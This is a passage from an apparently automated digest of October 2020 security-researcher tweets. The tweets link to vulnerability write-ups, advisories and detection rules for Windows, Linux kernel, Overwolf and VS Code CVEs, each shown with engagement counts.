<td>Retweets: <code>101</code></td>
<td>Favorites: <code>145</code></td>
</tr></table>

---

# spovolny
**https://twitter.com/spovolny/status/1316063618161504256 _at Tue Oct 13 17:09:52 +0000 2020_**
<blockquote>
#BadNeighbor is here! This is what we nicknamed the Microsoft Windows critical and wormable RCE vuln, CVE-2020-16898. McAfee ATR has released brief analysis and a Suricata rule for those unable to patch. 

https://t.co/XaocOyIv1t
https://t.co/Zo8PEKUEkz

#atr #badneighbor #mcafee
</blockquote>

* https://www.mcafee.com/blogs/other-blogs/mcafee-labs/cve-2020-16898-bad-neighbor
* https://github.com/advanced-threat-research/CVE-2020-16898

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>142</code></td>
<td>Favorites: <code>217</code></td>
</tr></table>

---

# EyalItkin
**https://twitter.com/EyalItkin/status/1315655528752787457 _at Mon Oct 12 14:08:16 +0000 2020_**
<blockquote>
Thanks to the help from @Horgh_rce, we can now confirm that we were able to attribute another Windows LPE exploit to Volodya — CVE-2017-0056. This brings the overall number of exploits we attributed to Volodya to 12. https://t.co/WRVULMLeOo
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# 0xorco
**https://twitter.com/0xorco/status/1315004569810866176 _at Sat Oct 10 19:01:35 +0000 2020_**
<blockquote>
My @Unit42_Intel blog post about CVE-2020-14386: Privilege Escalation Vulnerability in the Linux kernel
https://t.co/3eFaz2KwqE
</blockquote>

* https://unit42.paloaltonetworks.com/cve-2020-14386/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>123</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1314958662952157184 _at Sat Oct 10 15:59:10 +0000 2020_**
<blockquote>
CVE-2020-14386: Privilege Escalation Vulnerability in the Linux kernel.

Bug described as a "simple arithmetic security issue"

Write-up: https://t.co/3iTUKjNcuh

POC: https://t.co/9NV9qTy4q5 https://t.co/NQBy4bNwQn
</blockquote>

* https://unit42.paloaltonetworks.com/cve-2020-14386/
* https://www.openwall.com/lists/oss-security/2020/09/03/3

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>212</code></td>
</tr></table>

---

# niemand_sec
**https://twitter.com/niemand_sec/status/1314589526032080898 _at Fri Oct 09 15:32:21 +0000 2020_**
<blockquote>
New #security advisory 🥳:

"Unauthenticated Remote Code Execution in OverwolfUpdater" - CVE-2020-25214 https://t.co/GRk1hgEERn
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1313598440719355904 _at Tue Oct 06 21:54:08 +0000 2020_**
<blockquote>
We’re seeing more activity leveraging the CVE-2020-1472 exploit (ZeroLogon). A new campaign shrewdly poses as software updates that connect to known CHIMBORAZO (TA505) C2 infrastructure. The fake updates lead to UAC bypass and use of wscript.exe to run malicious scripts.
</blockquote>

<table><tr>
<td>Quotes: <code>28</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>455</code></td>
<td>Favorites: <code>762</code></td>
</tr></table>

---

# justinsteven
**https://twitter.com/justinsteven/status/1312152915344195584 _at Fri Oct 02 22:10:08 +0000 2020_**
<blockquote>
Microsoft Visual Studio Code seems to have botched the fix for CVE-2020-16881, a "remote code execution" vulnerability regarding "malicious package.json files". The patch can be trivially bypassed.  A thread 🧵
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>188</code></td>
</tr></table>

---

